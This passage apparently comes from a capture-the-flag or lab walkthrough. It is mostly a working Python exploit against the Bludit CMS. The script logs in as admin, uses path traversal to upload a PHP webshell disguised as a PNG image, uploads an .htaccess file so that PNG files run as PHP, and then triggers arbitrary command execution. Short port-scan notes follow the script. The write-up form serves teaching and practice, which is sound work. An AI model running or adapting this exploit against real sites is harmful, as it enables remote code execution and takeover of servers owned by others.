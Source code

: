 ```python
    return csrf_token


def upload_shell(s, csrf_token):
    data = {
        "uuid": "../../tmp",
        "tokenCSRF": csrf_token
    }

    multipart = [('images[]', ("blut.png", "<?php shell_exec(\"rm .htaccess;rm blut.png;" + cmd + "\");?>", 'image/png'))]

    r = s.post(f"{url}/admin/ajax/upload-images", data, files=multipart)

    if r.status_code != 200:
        print("[!] Error uploading Shell.")
        print("[!] Make sure Bludit version >= 3.9.2.")

    print("[+] Shell upload succesful.")

    multipart_htaccess = [('images[]', ('.htaccess', "RewriteEngine off\r\nAddType application/x-httpd-php .png", 'image/png'))]
    r = s.post(url + "/admin/ajax/upload-images", data, files=multipart_htaccess)

    if r.status_code != 200:
        print("[!] Error uploading .htaccess.")
        print("[!] Make sure Bludit version >= 3.9.2.")

    print("[+] .htaccess upload succesful.")


def execute_cmd(s):
    try:
        r = s.get(f"{url}/bl-content/tmp/blut.png", timeout=1)
    except requests.exceptions.ReadTimeout:
        pass

    print("[+] Command Execution Successful.")


if __name__ == '__main__':
    session = admin_login()
    csrf_token = get_csrf(session)
    upload_shell(session, csrf_token)
    execute_cmd(session)
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.41 (Ubuntu)

* We have only one port open, so we can check the webpage.
